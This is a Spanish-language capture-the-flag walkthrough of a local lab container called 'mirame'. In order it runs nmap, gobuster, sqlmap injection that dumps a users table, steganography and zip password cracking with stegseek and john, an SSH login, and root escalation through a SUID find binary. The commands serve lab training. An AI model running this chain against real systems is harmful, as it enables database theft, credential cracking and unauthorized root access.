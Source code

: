 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh mirame.tar
```

![Pasted image 20250216181121](https://github.com/user-attachments/assets/1f7b8c4d-90eb-41e9-9589-d5365baac62b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250216181151](https://github.com/user-attachments/assets/6880b9dd-daa3-4c2b-affe-aa0fb17ed157)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250216183046](https://github.com/user-attachments/assets/4ed9a8dd-8c54-43a5-bc2f-39410eba4f1b)

Nos metemos en la web:

![Pasted image 20250216181233](https://github.com/user-attachments/assets/192168be-e4d8-47fd-8747-0a0a9873e2fc)

Hacemos **SQL Injection**:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

![Pasted image 20250216184832](https://github.com/user-attachments/assets/848f85d9-eb6c-4d92-9ec7-ce770ab2ba73)

![Pasted image 20250216184849](https://github.com/user-attachments/assets/e2c35471-7c1f-45ef-9491-a91a80d073b2)

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D users --tables --batch
```

![Pasted image 20250216184937](https://github.com/user-attachments/assets/583984bd-bf90-4c0c-9f99-a3ee7a9bb016)

![Pasted image 20250216184948](https://github.com/user-attachments/assets/62e186e5-d451-471e-9245-d9d07c5e3356)

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D users -T usuarios --columns --batch
```

![Pasted image 20250216185055](https://github.com/user-attachments/assets/aa20962a-b3fc-4fec-bbf3-0d0650fa818e)

![Pasted image 20250216185115](https://github.com/user-attachments/assets/d834adce-0607-4d44-a9d0-11fb3eeb944c)

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D users -T usuarios -C id,password,username --dump --batch
```

![Pasted image 20250216185341](https://github.com/user-attachments/assets/b459fceb-d71b-48c2-afe1-a836b5bbee6d)

![Pasted image 20250216185404](https://github.com/user-attachments/assets/2e48acad-7a00-4347-a4a2-05f1f5d5bc98)

Nos muestra un directorio oculto:

![Pasted image 20250216203818](https://github.com/user-attachments/assets/6e243332-7371-45f7-a798-a8fbe59514aa)

![Pasted image 20250216203830](https://github.com/user-attachments/assets/75fd63f3-5dcc-4c57-9669-8882336be895)

Descargamos la imagen y vemos que tiene oculto:

```Bash
curl -O http://172.17.0.2/directoriotravieso/miramebien.jpg
```

![Pasted image 20250216204010](https://github.com/user-attachments/assets/649d62ad-ee32-4ac2-b605-8381022fabae)

```Bash
steghide extract -sf miramebien.jpg
```

![Pasted image 20250216204736](https://github.com/user-attachments/assets/a29f2ec4-c84b-4094-96e5-0897a4f850f5)

Crackeamos salvoconducto:

```Bash
stegseek miramebien.jpg
```

![Pasted image 20250216204828](https://github.com/user-attachments/assets/b9d1c32c-42f5-4e51-8372-dc332c7ba664)

```Bash
steghide extract -sf miramebien.jpg
```

![Pasted image 20250216204909](https://github.com/user-attachments/assets/55aa1c94-9817-49b5-b268-838642b2d4fd)

```Bash
unzip ocultito.zip
```

![Pasted image 20250216205221](https://github.com/user-attachments/assets/aa6c355b-7c5e-4741-8682-efdd8ee24353)

Crakeamos zip:

```Bash
zip2john ocultito.zip > hash
```

![Pasted image 20250216205318](https://github.com/user-attachments/assets/af13e0d1-4bdd-438d-bb39-9e6cf3251f43)

```Bash
cat hash
```

![Pasted image 20250216205434](https://github.com/user-attachments/assets/47e3fb7c-4ed0-40f4-a614-b1083f3ed2fc)

```Bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![Pasted image 20250216205527](https://github.com/user-attachments/assets/1413375c-66d8-4442-9080-ea9b2b8624e6)

```Bash
unzip ocultito.zip
```

![Pasted image 20250216205552](https://github.com/user-attachments/assets/be0c2e59-bc7f-4d75-ad02-0b11ecc6405c)

```Bash
cat secret.txt
```

![Pasted image 20250216205623](https://github.com/user-attachments/assets/b9657dc2-854e-4eae-8b51-a61c0e4239c0)

Nos conectamos con **SSH**:

```Bash
ssh carlos@172.17.0.2
```

![Pasted image 20250216205646](https://github.com/user-attachments/assets/d0f84f1a-074a-4fdf-9a55-01e15b697828)

Elevamos privilegios:

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250216205730](https://github.com/user-attachments/assets/1b3f0d1f-d492-4916-b146-633f460d2f02)

```Bash
find . -exec /bin/bash -p \; -quit
```

![Pasted image 20250216205843](https://github.com/user-attachments/assets/f528976c-a919-48f1-8320-6a013c09813b)

```Bash
whoami
```

![Pasted image 20250216205859](https://github.com/user-attachments/assets/00feeaf4-b68c-4ed3-a711-b0124384c8da)
